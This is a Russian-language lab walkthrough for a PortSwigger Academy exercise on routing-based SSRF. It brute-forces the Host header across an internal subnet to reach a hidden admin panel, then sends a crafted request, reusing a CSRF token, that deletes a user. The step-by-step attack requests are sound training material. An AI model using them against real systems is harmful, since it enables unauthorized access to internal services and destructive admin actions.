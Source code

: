 Перейдем на уязвимый ресурс

откроем `Proxy` -> `HTTP history` и изучим запросы

Отправим запрос на корневую страницу в `Repeater`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/4.%20Routing-based%20SSRF/pics%20for%20walkthrough/1.png)

По заданию нам известно, что админка расположена в сетке `192.168.0.0/24
`
отправим запрос в `Intruder`

и изменим параметр `Host` на 
```
Host: 192.168.0.§0§
```

Выберем `attack type sniper`
и уберем галочку `update Host Header to match target`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/4.%20Routing-based%20SSRF/pics%20for%20walkthrough/2.png)

А в payload выберем numbers и выберем числа от 0 до 255

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/4.%20Routing-based%20SSRF/pics%20for%20walkthrough/3.png)

Далее запустим атаку, отсортируем по status code'ам и увидим, что только у одного происходит редирект - 

`Host: 192.168.0.121`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/4.%20Routing-based%20SSRF/pics%20for%20walkthrough/4.png)

Вернемся в `Repeater` и отправим запрос с 
```
GET / HTTP/2
Host: 192.168.0.121
```
нажмем `Follow redirection` и узнаем как нам удалить carlos

```
                   <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="GForVsqn8ShA1zs5bvtQ64MvIzknqEw8">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
                    </form>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/4.%20Routing-based%20SSRF/pics%20for%20walkthrough/5.png)

При анализе мы понимаем, что нужен путь `/admin/delete` `username=carlos` и csrf токен `GForVsqn8ShA1zs5bvtQ64MvIzknqEw8`

Соединим все и получим 
```
GET /admin/delete?csrf=GForVsqn8ShA1zs5bvtQ64MvIzknqEw8&username=carlos HTTP/2
```

Отправим, и получим уведомление о успешно выполненной атаке

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/4.%20Routing-based%20SSRF/pics%20for%20walkthrough/6.png)
